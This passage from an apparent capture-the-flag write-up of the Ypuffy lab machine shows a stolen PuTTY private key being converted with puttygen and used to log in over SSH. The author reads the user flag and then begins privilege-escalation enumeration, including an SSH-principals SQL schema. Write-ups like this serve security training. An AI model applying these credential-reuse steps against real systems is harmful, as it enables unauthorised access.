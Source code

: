 To convert it to the OpenSSH format, I used the `puttygen` utility:

```
root@ragingunicorn:~# puttygen /usr/share/smbmap/10.10.10.107-alice_my_private_key.ppk -O private-openssh -o alice_rsa
root@ragingunicorn:~# file alice_rsa
alice_rsa: PEM RSA private key
```

We can log in and get the user flag at this point:

```
root@ragingunicorn:~# ssh -i alice_rsa alice1978@10.10.10.107
The authenticity of host '10.10.10.107 (10.10.10.107)' can't be established.
ECDSA key fingerprint is SHA256:oYYpshmLOvkyebJUObgH6bxJkOGRu7xsw3r7ta0LCzE.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.107' (ECDSA) to the list of known hosts.
OpenBSD 6.3 (GENERIC) #100: Sat Mar 24 14:17:45 MDT 2018

Welcome to OpenBSD: The proactively secure Unix-like operating system.

Please use the sendbug(1) utility to report bugs in the system.
Before reporting a bug, please try to reproduce it with the latest
version of the code.  With bug reports, please try to ensure that
enough information to reproduce the problem is enclosed, and if a
known fix for it exists, include that as well.

ypuffy$ cat user.txt
acbc06<redacted>
```

### Priv esc

The home directory contains an interesting user `userca`:

```
ypuffy$ ls -la
total 20
drwxr-xr-x   5 root       wheel      512 Jul 30  2018 .
drwxr-xr-x  13 root       wheel      512 Feb  5 00:30 ..
drwxr-x---   3 alice1978  alice1978  512 Jul 31  2018 alice1978
drwxr-xr-x   3 bob8791    bob8791    512 Jul 30  2018 bob8791
drwxr-xr-x   3 userca     userca     512 Jul 30  2018 userca
```

Bob8791's home directory contains an SQL file with a reference to a `principal` and `keys` tables:

```
ypuffy$ pwd
/home/bob8791/dba
ypuffy$ ls
sshauth.sql
ypuffy$ cat sshauth.sql                                                                                                                                                                                           
CREATE TABLE principals (
        uid text,
        client cidr,
        principal text,
        PRIMARY KEY (uid,client,principal)
);

CREATE TABLE keys (
        uid text,
        key text,
        PRIMARY KEY (uid,key)
);
grant select on principals,keys to appsrv;
```